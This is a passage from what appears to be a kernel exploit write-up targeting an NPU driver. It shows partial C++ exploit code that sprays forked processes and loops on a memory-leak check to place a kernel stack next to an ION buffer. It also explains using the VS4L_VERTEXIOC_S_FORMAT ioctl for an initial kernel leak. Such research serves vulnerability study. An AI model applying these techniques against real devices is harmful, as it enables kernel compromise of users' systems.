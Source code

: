 ```c++
}

...
  
int main(int argc, char *argv[]) {
  	...
    pipe(parent_pipe);
    pipe(child_pipe);
    pipe(trig_pipe);
  	...
    *wait_count = 0;
    int par_pid = 0;
    if (!(par_pid = fork())) {
        for (int i = 0; i < 0x2000; i++) {
            int pid = 0;
            if (!(pid = fork())){
                read_sleep_func(NULL);
                return 0;
            }
        }
        return 0;
    }
  	...
    if(leak(0xeec8) != 0x41414141){
        write(trig_pipe[1], "A", 1); // child process kill
        for (int i = ion_fd; i < 0x3ff; i++) {
            close(i);
        }
        munmap(ncp_page, 0x7000);
        goto retry;
    }
  	...
```

By very heuristic way that inspecting whether kernel crash occurs or not, we can finally place our child's kernel stack after the ION buffer..



**Initial kernel memory leak**

Even though there are various information leak vectors, we used `VS4L_VERTEXIOC_S_FORMAT` ioctl interface to call `npu_session_format` function in kernel space. 

```c++
int npu_session_format(struct npu_queue *queue, struct vs4l_format_list *flist)
{
	...
	ncp_vaddr = (char *)session->ncp_mem_buf->vaddr;
	ncp = (struct ncp_header *)ncp_vaddr;

	address_vector_offset = ncp->address_vector_offset;
	address_vector_cnt = ncp->address_vector_cnt;

	memory_vector_offset = ncp->memory_vector_offset;
	memory_vector_cnt = ncp->memory_vector_cnt;

	mv = (struct memory_vector *)(ncp_vaddr + memory_vector_offset);
	av = (struct address_vector *)(ncp_vaddr + address_vector_offset);

	formats = flist->formats;

	if (flist->direction == VS4L_DIRECTION_IN) {
		FM_av = session->IFM_info[0].addr_info;
		FM_cnt = session->IFM_cnt;
	}
```